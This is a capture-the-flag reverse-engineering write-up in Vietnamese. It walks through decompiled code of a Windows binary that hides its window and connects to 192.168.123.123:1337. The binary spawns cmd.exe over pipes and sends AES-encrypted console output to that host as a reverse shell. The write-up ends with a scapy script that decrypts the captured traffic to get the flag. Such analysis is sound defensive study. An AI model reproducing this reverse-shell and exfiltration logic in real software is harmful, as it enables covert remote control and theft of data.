 # SECRET 
- Khi mở file binary bằng IDA và phân tích hàm `main`:
```C 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  HWND ConsoleWindow; // eax
  SOCKET v4; // eax
  struct WSAData WSAData; // [esp+10h] [ebp-198h] BYREF

  ConsoleWindow = GetConsoleWindow();
  ShowWindow(ConsoleWindow, 0);
  hMutex = CreateMutexW(0, 0, L"9_5_diem");
  if ( !hMutex || WSAStartup(0x202u, &WSAData) )
    return 1;
  *(_DWORD *)&name.sa_family = 0;
  *(_DWORD *)&name.sa_data[2] = 0;
  *(_DWORD *)&name.sa_data[6] = 0;
  *(_DWORD *)&name.sa_data[10] = 0;
  name.sa_family = 2;
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  v4 = socket(2, 1, 6);
  s = v4;
  if ( v4 == -1 )
  {
LABEL_4:
    WSACleanup();
    return 1;
  }
  if ( connect(v4, &name, 16) == -1 )
  {
    closesocket(s);
    goto LABEL_4;
  }
  sub_8E1983();
  ReleaseMutex(hMutex);
  return 0;
}
```
- Trước tiên chương trình tạo `MUTEX OBJECT` nên chúng ta có thể suy đoán rằng bài sẽ có chỗ sử dụng `shared resource` giữa các thread (tức là sẽ có thêm những thread mới được tạo ra)
- Tiếp đến chúng ta có thể thấy rằng chương trình đã kết nối socket đến địa chỉ `192.168.123.123` và  `PORT 1337` : 
```C 
  ..........
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  ............
```
- Như vậy đã có kết nối socket thì chắc chắn sẽ có data chứa flag được truyền đi nên chúng ta sẽ tiếp tục trace vào hàm `sub_8E1983` để xem tác giả đã sử dụng socket để gửi đi những gì :
```C
char sub_8E1983()
{
  struct _STARTUPINFOW StartupInfo; // [esp+10h] [ebp-78h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+58h] [ebp-30h] BYREF
  struct _SECURITY_ATTRIBUTES PipeAttributes; // [esp+68h] [ebp-20h] BYREF
  int CommandLine[4]; // [esp+74h] [ebp-14h] BYREF

  PipeAttributes.nLength = 12;
  PipeAttributes.bInheritHandle = 1;
  PipeAttributes.lpSecurityDescriptor = 0;
  if ( !CreatePipe(&hObject, &hWritePipe, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(hObject, 1u, 0) )
    return 0;
  if ( !CreatePipe(&hReadPipe, &dword_8F6330, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(dword_8F6330, 1u, 0) )
    return 0;
  CommandLine[0] = *(_DWORD *)L"cmd.exe";
  CommandLine[1] = *(_DWORD *)L"d.exe";
  CommandLine[2] = *(_DWORD *)L"exe";
  CommandLine[3] = *(_DWORD *)L"e";
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.dwFlags |= 0x101u;
  StartupInfo.hStdError = hWritePipe;
  StartupInfo.hStdOutput = hWritePipe;
  StartupInfo.hStdInput = hReadPipe;
  StartupInfo.cb = 68;
  if ( !CreateProcessW(0, (LPWSTR)CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation) )
    return 0;
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
  WaitForSingleObject(ProcessInformation.hProcess, 0xFFFFFFFF);
  CloseHandle(ProcessInformation.hProcess);
  CloseHandle(ProcessInformation.hThread);
  return 1;
}
```
- Ở hàm `sub_8E1983` tác giả đã tạo một `pipe` và sau đó tạo một `PROCESS` con để sử dụng `pipe` này (`CreateProcessW`) 
- Process con sẽ chạy commandline bật cmd.exe và chạy d.exe , exe, ....
- Mục tiêu cần trace cuối cùng ở đây là hai hàm `StartAddress` và `sub_8E18B3` :

```C 
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
```

## Trước tiên là function `StartAddress`: 
```C
int __stdcall StartAddress()
{
  void *reader; // ebx
  size_t v1; // ebx
  size_t v2; // esi
  int result; // eax
  const void *v4; // [esp-8h] [ebp-78h]
  DWORD *buf; // [esp+10h] [ebp-60h]
  void *i; // [esp+14h] [ebp-5Ch]
  _DWORD v7[10]; // [esp+18h] [ebp-58h] BYREF
  char v8[40]; // [esp+40h] [ebp-30h] BYREF
  DWORD NumberOfBytesRead; // [esp+68h] [ebp-8h] BYREF

  reader = sub_8E1BC5(0xFFFFu);
  for ( i = reader; ; reader = i )
  {
    memset(reader, 0, 0xFFFFu);
    result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
    v2 = v7[8] + 37;
    buf = (DWORD *)sub_8E1BC5(v7[8] + 37);
	..............
```
- Có rất nhiều hàm nên mình sẽ chỉ phân tích một số hàm quan trọng .
- Đầu tiên chương trình sẽ đọc `StdOut` của `pipe` vừa tạo lúc trước , hiểu đơn giản là màn hình console của process được tạo ra trước đó hiện cái gì thì chương trình sẽ đọc tất : 

```C 
	........
	result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
	.......
```
- Sau khi đọc xong, tất cả dữ liệu sẽ được đưa vào hàm `sub_8E14F5` để `encrypt` rồi coppy vào biến `v7`
- Tiếp theo biến buf sẽ nhận được những data cần gửi đi :
```C
	..........
	memset(buf, 0, v2);
    *buf = v7[0];
    buf[8] = v1;
    buf[1] = v7[1];
    v4 = (const void *)v7[9];
    buf[2] = v7[2];
    buf[3] = v7[3];
    buf[4] = v7[4];
    buf[5] = v7[5];
    buf[6] = v7[6];
    buf[7] = v7[7];
    memmove(buf + 9, v4, v1);
    if ( send(s, (const char *)buf, v1 + 36, 0) == -1 )
      return closesocket(s);
    j_j__free(buf);
    Sleep(0xAu);
  }
  return result;
}

```
### Phân tích hàm Encrypt `sub_8E14F5`: 

- Đầu vào của hàm `sub_8E14F5`  là `NumberOfBytesRead` ,`reader`, `v8`
   + `NumberOfBytesRead` : số byte
   + `reader` : số byte đã đọc được
   + `v8` : mảng rỗng 
```C
_DWORD *__usercall sub_8E14F5@<eax>(signed int number_of_byte@<edx>, const void *buf@<ecx>, _DWORD *space)
{
   .......
  i = 0;
  Time = getTime(0);
  srand(Time);
  do
  {
    *((_BYTE *)space + i + 16) = rand();
    *((_BYTE *)space + i++) = rand();
  }
  while ( i < 16 );
```
- Đoạn đầu của hàm sử dụng hàm `random` để tạo ra 32 byte đầu bất kì , sau khi trace vào các hàm bên dưới thì mình thấy có một vùng data chương trình sử dụng để trộn với `reader` và `32 byte đầu` kia và những byte đó hoàn toàn giống với `Rijndael S-box` ([S-box](https://en.wikipedia.org/wiki/Rijndael_S-box))
- Nên mình kết luận luôn đây là hàm Encrypt sử dụng `AES` với `Key` và `IV` sẽ là 32 byte random kia.
## Decrypt Data
- Đề bài còn cho chúng ta một file `pcap` để xem những data đã gửi đi nên chúng ta sẽ lấy chúng ra để decrypt 
- Key và IV sẽ là `32 byte đầu`
- Do lúc socket gửi đi , nó có gửi cả `KEY` và `IV` nên chúng ta có thể lấy được nó thông qua file `pcap`
- script mình hack được từ anh tác giả : 
```python 
from scapy.all import *
from Crypto.Cipher import AES 
from Crypto.Util.Padding import * 

pp = PcapNgReader("capture.pcapng")

for p in pp:
    if TCP in p and (p[TCP].dport == 1337 or p[TCP].sport == 1337):
        payload = raw(p[TCP].payload)
        if len(payload) < 36:
            continue
        key = payload[:16]
        iv = payload[16:32]
        size = int.from_bytes(payload[32:36], byteorder='little')
        cipher = AES.new(key, AES.MODE_CBC, iv)
        data = payload[36:36+size]
        data = cipher.decrypt(data)
        try:
            data = unpad(data,16)
        except:
            pass
        print(data.decode())
        # break
```

- FLAG : `KCSC{d0'N7_g1v3_y0u_up}`
